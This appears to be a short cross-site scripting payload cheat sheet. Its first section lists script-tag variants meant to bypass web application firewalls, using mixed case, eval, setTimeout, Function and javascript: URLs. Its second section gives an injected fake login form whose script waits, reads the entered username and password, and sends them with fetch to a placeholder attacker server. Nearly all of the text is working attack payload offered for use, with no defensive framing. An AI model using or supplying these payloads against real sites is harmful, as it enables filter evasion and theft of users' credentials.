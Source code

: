 ### WAF bypass
```
<sCriPt>alert``</sCRipT>
<sCriPt>eval('alert\x280\x29');</sCRipT>
<sCriPt>setTimeout('alert\x280\x29',0);</sCRipT>
<sCriPt>Function('alert\x280\x29')();</sCRipT>
<sCriPt>window.location='javascript:alert(0)';</sCRipT>
```

### Fake authentication form sending credentials in keylogger mode

    <input type="text" name="username" id="username" /><input type="password" name="password" id="password" /><script>function sleep(ms){return new Promise(r => setTimeout(r,ms));}sleep(3000).then(()=> {var user =document.getElementById('username').value;var pass = document.getElementById('password').value;var user_pass = user+"_"+pass;fetch("https://[YOUR_SERVER]?u="+user_pass);});</script>
